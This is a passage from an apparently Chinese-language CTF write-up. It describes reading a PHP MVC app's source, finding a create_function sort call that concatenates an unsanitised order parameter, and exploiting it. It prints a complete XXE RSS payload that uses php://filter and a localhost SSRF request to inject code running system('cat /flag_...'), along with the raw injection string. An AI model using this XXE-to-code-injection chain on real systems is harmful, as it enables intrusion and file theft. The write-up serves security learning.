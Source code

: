 将上述内容base64编码之后用之前的data协议传入进去, 触发成功.

接下来就读取源码就行了.

不熟悉MVC架构....读完index.php之后就不知道读什么.....

index.php 中有routes.php, 根据routes.php再去读controllers/Admin.php, 然后又去读views/Admin.php

然后关键代码

```
usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```

直接拼接

exp.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/rss_in_order?rss_url=https://view.news.qq.com/index2010/zhuanti/ztrss.xml&order=%24b%2C%24a)%3B%7Dsystem('cat%20%2Fflag_eb8ba2eb07702e69963a7d6ab8669134')%3B%2F%2F" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
    <title>The Blog</title>
    <link>http://example.com/</link>
    <description>A blog about things</description>
    <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
    <item>
        <title>&xxe;</title>
        <link>http://example.com</link>
        <description>a post</description>
        <author>author@example.com</author>
        <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
    </item>
</channel>
</rss>
```

```
$b,$a);}system('cat /flag_eb8ba2eb07702e69963a7d6ab8669134');"
```


